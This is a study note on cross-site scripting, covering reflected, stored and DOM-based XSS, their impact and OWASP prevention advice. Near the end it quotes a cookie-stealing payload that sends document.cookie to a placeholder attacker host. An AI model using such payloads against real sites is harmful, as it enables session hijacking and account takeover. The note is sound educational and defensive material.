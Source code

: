 - XSS allows attackers to execute scripts in the victim's browser which can hijack user sessions, deface web sites or redirect the user to malicious sites. 
- This occurs when application includes untrusted data in a web page without proper validation or updates an existing web page with user supplied data using a browser API that can create HTML or JS.
![[Pasted image 20250119133428.png]]
- Automated tools can be used to exploit XSS attack. XSS is the second most prevalent issue in OWASP top 10, and is found in around 2/3 of all applications. XSS issue can be found in mature technologies as well such as PHP, J2EE/JSP and ASP.NET
- Types of XSS attacks,
	1. Reflected XSS : (non-Persistent)
		The application or API includes unvalidated user inputs as part of HTML output. (ex: `https://example.com?query=<script>alert('XSS')</script>`)
		Users will need to interact with some malicious link that directs to an attacker-controlled page. 
	2. Stored XSS : (Persistent)
		The malicious script is permanently stored on the server. When user access the compromised page or data, the scrip is delivered and executes in the browser. 
	3. DOM-based XSS : (Client-side XSS)
		Vulnerability exist in the client-side code. 
		The attack occurs when the browser processes unsafe data from the DOM without proper validation or sanitization.
- Impact, 
Moderate impact for reflected and DOM XSS attacks but sever for Stored XSS attacks. Such as,
	1. Remote code execution on victim's browser
	2. Stealing credentials, sessions, delivering malware to victims
	3. Account takeover
	4. MFA bypass
	5. Web defacing

- Preventing XSS,
Requires to separate untrusted data from active browser content,
1. Use frameworks that automatically escape XSS by design.
2. Escape untrusted HTTP request data based on the context of the HTML output.
3. Apply context-sensitive encoding
4. Enabling content security policy(CSP) as a defence-in-depth

Ex: The application uses untrusted data in the construction of the following HTML snippet without validation or escaping.
```js
(String) page += "<input name='creditcard' type='TEXT' value = request.getParameter("CC")> + ";
```
The attacker modifies the ‘CC’ parameter in the browser to:
```js
'><script>document.location='http://www.attacker.com/cgibin/cookie.cgi?foo='+'document.cookie</script>'
```
This attack causes the victim’s session ID to be sent to the attacker’s website, allowing the attacker to hijack the user’s current session.

- Attackers can use XSS to defeat any automated Cross-Site Request Forgery (CSRF) defence the application might employ
